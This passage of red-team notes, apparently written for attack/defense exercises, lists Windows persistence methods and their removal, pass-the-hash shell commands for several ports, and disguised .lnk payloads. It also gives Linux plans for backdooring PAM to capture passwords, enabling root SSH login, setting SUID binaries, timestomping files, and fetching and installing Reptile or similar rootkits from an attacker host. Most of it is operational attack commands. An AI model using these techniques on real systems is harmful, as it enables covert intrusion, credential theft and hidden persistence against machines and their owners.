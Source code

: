       - This allows multiple users RDP as one user
    - Found a repo: https://github.com/f3di006/hRDP
  - DarkLnk - creates disguised .lnk files that run powershell but look like something else
    - https://github.com/wariv/Darklnk
- When installing the exes, make sure to use `-o` with `iwr` or we'll just get the HTTP connection info lmfao
- First, run [windows_add_payloads.ps1 -src {path_to_exe}](https://khaelkugler.com/scripts/windows_add_payloads.ps1.txt) to add the file to each of the locations
- Then, run [windows_persistence.ps1](https://khaelkugler.com/scripts/windows_persistence.ps1.txt)
  - Removing persistence:
    - Delete payloads from all locations
    - Schtask: `Unregister-ScheduledTask -TaskName "WindowsUpdater" -Confirm:$false`
    - Registry Run Key: Delete registry entries from both locations
    - Shortcut in Startup: `rm 'C:\Users\$env:USERNAME\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\winupdater.lnk'`
    - Service: `Stop-Service -Name "WinUpdaterSvc"` and `$service = Get-WmiObject -Class Win32_Service -Filter "Name='WinUpdaterSvc'"; $service.delete()`
    - Registry UserInit: Remove 2nd path and 2nd comma from `HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`
    - Registry Logon Script: Remove path from `HKCU:\Environment`
- Shells:
  - 135 - use `wmiexec.py -hashes :{hash} '{domain}/{user}@{ip}'`
  - 139/445 - use `psexec.py -hashes :{hash} '{domain}/{user}@{ip}'` or `smbexec`
  - 593 - use `atexec.py -hashes :{hash} '{domain}/{user}@{ip}' "{command}"`
  - 3389 - user `xfreerdp3 /u:{user} /d:{domain} /pth:{hash} /v:{IP}`
    - `/p:{password}` if we have it
  - 5985 - use `evil-winrm -i {IP} -u '{domain}\{username}' -H {hash} -r {domain}`
    - `-r` optional, used for kerberos
- Persisting via the `Guest` account
  - After enabling/providing administrator to Guest and adding it to the `Remote Desktop Users` group, we might still need to configure group policy:
    - `secedit /export /cfg C:\Windows\temp\secpol.inf`
    - Modify the "SeDenyInteractiveLogonRight" line and remove the `Guest` account
    - Reimport with `secedit /configure /db C:\Windows\temp\secedit.sdb /cgf C:\Windows\temp\secpol.inf`
    - Then update GP with `gpupdate /force`

**Linux:**
- Todo:
  - Create a big zipped folder containing all necessary files (attacker and client)
    - This will be our kali-setup zip to download
  - Write a persistence script that does the following
    - Gets all relevant files from kali
    - Backdoors PAM (adds the master password and logs new passwords)
    - Permits root login: `sed -i '/PermitRootLogin/c\PermitRootLogin yes' /etc/ssh/sshd_config `
    - Adds a Prism/boopkit service
      - Hidden files lends itself EXTREMELY well to services
        - However, once running, we can see it with `systemctl | grep "reptile"` so might need to set the overall prefix to something like "cpu"
        - May also need to hide the prism/boopkit PID
      - boopkit is better, but only works on 5.x+
    - Add suid `ip`, `chroot`, and `ssh-keygen` (move `ssh-keygen` to `/usr/lib/openssh/`)
      - `chmod u+s $(which env) $(which ip) $(which chroot)`
    - Runs prism (on startup)
    - Hides all of the above with a rootkit (and changing dates with something like `touch -d "May 26 2020" {file}`)
      - This will likely require an internet connection or for our Kali to be able to provide necessary packages
      - If kernel 4 or below, use reptile:
        - `wget {kali_IP}:{port}/reptile.tar.gz && tar -xvf reptile.tar.gz && cd Reptile-master`
        - `apt install gcc make build-essential linux-headers-$(uname -r)`
        - Default options seem good, so `sed -i 's/reptile/redteam/g' config/defconfig && make defconfig && make && make install`
      - If kernel 5 or above, use BDS